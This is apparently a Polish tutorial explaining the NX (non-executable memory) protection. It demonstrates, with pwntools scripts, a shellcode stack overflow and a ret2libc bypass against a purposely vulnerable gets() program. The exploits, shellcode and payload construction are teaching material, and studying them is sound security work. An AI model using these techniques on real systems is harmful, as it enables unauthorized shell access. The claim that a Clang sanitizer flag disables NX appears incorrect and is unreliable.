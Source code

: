 # Execution Disable
## Opis
`Execution Disable`, zwane też `Executable space protection`, `NX` lub `W^X` oznacza obszary pamięci jako `non-executable`. Wykonywanie tak oznaczonego kodu spowoduje SEGFAULT oraz zabicie procesu.

Najczęstszą implementacją `Execution Disable` jest `NX bit` - sprzętowa implementacja stosowana w większości procesorów (x86 - intel pod nazwą `XD`, amd pod nazwą `NX bit` oraz ARM - pod nazwą `execute never`).

Możliwa jest też software'owa emulacja (nie na Windowsie) tej funkcjonalności ale wiąże się to ze znacznym spadkiem wydajności.
Niektóre dystrybucje linuxa x86-32bit mają domyślnie wyłączony NX bit (ubuntu, fedora).

NX zapobiega bezpośredniemu wykonywaniu wstrzykniętego na stos kodu. Pomimo tego w przypadku zastosowania niebezpiecznych funkcji nie powstrzymuje nas on przed atakami jedynie sterującymi działaniem programu, np `ret2libc`.

## Clang i GCC

W obydu kompilatorach NX jest defaultowo włączony. W GCC możemy wyłączyć nx przez flagę `-z execstack` a w Clang'u przez flagę `-fno-sanitize=safe-stack`.

## Exploit 1 - BOF z shellcode
### Podatna aplikacja
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void func() {
  char input[16];

  printf("Please enter your name: \n");
  gets(input);

  printf("Hi %s\n", input);
}

int main() {
  func();
  return 0;
}
```

W exploicie wykożystuje użycie niebezpiecznej funkcji `gets()` pozwalającej na `BOF`.

Do automatyzacji exploitu wykorzystuje `pwntools`.

### Krok 1

W kroku 1 muszę znaleźć offset po którym zostanie nadpisany rejestr `eip`. Robię to za pomocą funckji [cyclic](https://docs.pwntools.com/en/stable/util/cyclic.html) generującej ciąg znaków `aaaabaaacaaa` dowolnej długości.

```python
io.sendline(cyclic(100, n=4))
io.wait()
core = io.corefile
eip_offset = cyclic_find(pack(core.eip))
info("eip offset = %d", eip_offset)
```

Po crashu pwntoolsy zczytują rejestr eip i sprawdzany jest offset.

![](https://i.imgur.com/Gd71A3S.png)

Do rejestru trafiło `haaa` więc offset to 28.

### Krok 2

Następnie trzeba sprawdzić adres naszego inputu na stosie.

![](https://i.imgur.com/UKGoxvK.png)

Adres naszego shellcode =`0xffffd130 + eip_offset + 4`

### Krok 3

W 3 kroku do naszego inputu doklejamy shellcode. Dla skrócenia kodu używam shellcode generowanego przez pwntools.

Przykładowy shellcode opiera się na wykonaniu syscalla `execve` z argumentem `/bin/sh`.

```nasm
xor eax, eax 
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov ecx, eax
mov edx, eax
push 0xb
pop eax
int 0x80
```

Powyższy przykładowy shellcode zeruje rejestr `eax`, umieszcza string `/bin/sh` na stosie, umieszcza pointer do stringa w `ebx`, zeruje `ecx i edx`, ustawia wartość `0xb` w `eax` oraz wykonuje syscall instrukcją `int 0x80`

Wykonując tak przygotowanego exploita otrzymujemy basha: 

![](https://i.imgur.com/Ge9gu2A.png)

W przypadku zastosowania exploita na aplikacji skompilowanej z nx otrzymujemy segfaulta:

![](https://i.imgur.com/zMg5sk1.png)

## Exploit 2 - ret2libc

Przykładem exploita omijającego nx jest `ret2libc`. Zamiast wykonywać shellcode umieszczony na stosie w tym exploicie odwołamy się jedynie do funkcji `system()` zawartej w `libc` ze stringiem `/bin/sh` również zawartym w libc `libc`.

### Krok 1
Analogicznie do poprzedniego exploita znajdujemy offset. Potem potrzebujemy odnaleźć adresy `libc`, `system()`, `/bin/sh`, oraz `exit()`. Można zrobić to za pomocą gdb albo pwntools.

Skrypt wyszukujący adresy:

```python
libc_addr = core.libc.start

libc = ELF("/usr/lib/i386-linux-gnu/libc-2.31.so")

binsh_addr = next(core.search(b"/bin/sh"))
sys_addr = libc.symbols["system"] + libc_addr
exit_addr = libc.symbols["exit"] + libc_addr
```

### Krok 2
Sklejamy i wysyłamy exploita:

```python
payload = b"a"*eip_offset
payload += p32(sys_addr)
payload += p32(exit_addr)
payload += p32(binsh_addr)
```

![](https://i.imgur.com/zJWyOlY.png)

## Wnioski 
NX jest prostym zabezpieczeniem zapobiegającym najprostszym atakom BOF. Nie odbija się negatynie na wydajności więc pomimo łatwości obejścia powinno być ono uniwersalnie implementowane.
